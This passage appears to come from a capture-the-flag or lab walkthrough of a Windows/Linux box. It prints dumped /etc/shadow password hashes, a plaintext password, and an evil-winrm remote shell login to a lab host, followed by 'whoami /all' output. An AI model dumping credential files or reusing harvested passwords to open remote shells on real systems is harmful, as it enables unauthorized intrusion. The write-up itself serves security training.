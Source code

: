 ```c
www-data:*:19979:0:99999:7:::
backup:*:19979:0:99999:7:::
list:*:19979:0:99999:7:::
irc:*:19979:0:99999:7:::
gnats:*:19979:0:99999:7:::
nobody:*:19979:0:99999:7:::
systemd-network:*:19979:0:99999:7:::
systemd-resolve:*:19979:0:99999:7:::
syslog:*:19979:0:99999:7:::
messagebus:*:19979:0:99999:7:::
_apt:*:19979:0:99999:7:::
uuidd:*:19979:0:99999:7:::
sshd:*:19979:0:99999:7:::
wao:$6$ZENNwHYt$DhiPYWPPBP/2sxfUusrx/5x6.8b5qI4gdJde9NDbV.8kTtxTdxvEW5rb5wG9qudc82aX01AOILA2iNoZYEilE/:19982:0:99999:7:::
steven:$6$W14mH6Yy$.qJ3F3FwQ5oVgBiYdCLBSQn8v.SbJ3MDEoTZ/0OhpamOhUKH/hgTZOyuoxcZpwiGtqLYy5PTz1zL6GY7vWGF8/:19979:0:99999:7:::
emma:$6$2gWMCP4b$pzjWdquZSg80UdO2RylTycDchjgdlznxGHhGdKafgyaUgjVVLwsgjbirtNkIzvDCBk5ixquxiba0IFwX6bsa9.:19980:0:99999:7:::
```

## Enumeration of WS-3

On `WS-3` we get a grasp of how massive this box must be after reading the `README.txt` on `WAO's Desktop`.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 192.168.99.2 -u 'WAO' -p 'WebAO1337'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\wao\Documents>
```

```c
*Evil-WinRM* PS C:\> whoami /all

USER INFORMATION
----------------

User Name      SID
============== =============================================
university\wao S-1-5-21-2056245889-740706773-2266349663-1106


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
```